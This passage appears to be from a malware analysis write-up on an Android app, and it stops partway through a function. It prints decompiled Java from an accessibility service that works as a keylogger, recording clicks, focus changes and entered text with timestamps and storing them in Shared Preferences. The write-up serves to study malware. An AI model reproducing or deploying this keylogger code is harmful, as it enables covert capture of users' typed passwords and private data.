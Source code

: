 ### FitnessAccessibilityService (Updated)

Added a keylogger :

```java
    private void logAccessibilityKeylogger(AccessibilityEvent accessibilityEvent) {
        if (accessibilityEvent.getText() == null) {
            return;
        }
        try {
            String format = new SimpleDateFormat("MM/dd/yyyy, HH:mm:ss z", Locale.US).format(Calendar.getInstance().getTime());
            int eventType = accessibilityEvent.getEventType();
            if (eventType != 1) {
                if (eventType != 8) {
                    if (eventType == 16) {
                        if (!accessibilityEvent.getText().toString().equals(HttpUrl.FRAGMENT_ENCODE_SET)) {
                            UtilGlobal.Log("logAccessibilityKeylogger", format + "[Text entered]" + accessibilityEvent.getText().toString());
                        }
                    } else {
                        try {
                            if (accessibilityEvent.getText().toString().length() >= 3) {
                                UtilGlobal.Log("logAccessibilityKeylogger", format + "[Focused]" + accessibilityEvent.getText().toString().length() + " # " + accessibilityEvent.getText().toString());
                            }
                        } catch (Exception e) {
                            e.printStackTrace();
                            UtilGlobal.Log(TAG, e.getMessage());
                        }
                    }
                } else if (!accessibilityEvent.getText().toString().equals(HttpUrl.FRAGMENT_ENCODE_SET)) {
                    UtilGlobal.Log("logAccessibilityKeylogger", format + "[Focused]" + accessibilityEvent.getText().toString());
                }
            } else if (!accessibilityEvent.getText().toString().equals(HttpUrl.FRAGMENT_ENCODE_SET)) {
                UtilGlobal.Log("logAccessibilityKeylogger", format + "[Click]" + accessibilityEvent.getText().toString());
            }
        } catch (Exception e2) {
            e2.printStackTrace();
            UtilGlobal.Log(TAG, e2.getMessage());
        }
    }
```

All user actions will be logged and saved in the Shared Preferences with the tag `key`.

```java
    private void writeKeyloggerJournal(AccessibilityEvent accessibilityEvent) {
        try {
            if (accessibilityEvent.getText() != null && !accessibilityEvent.getText().isEmpty()) {
                int eventType = accessibilityEvent.getEventType();
                String str = "focused";
                if (eventType == 1) {
                    str = "clicked";
                } else if (eventType != 8 && eventType == 16) {
                    str = "entered";
                }
                if (accessibilityEvent.getText() != null) {
                    UtilLog.addToList(this, "key", new KeyloggerLogJournalEntry(accessibilityEvent, accessibilityEvent.getText().toString(), str));
```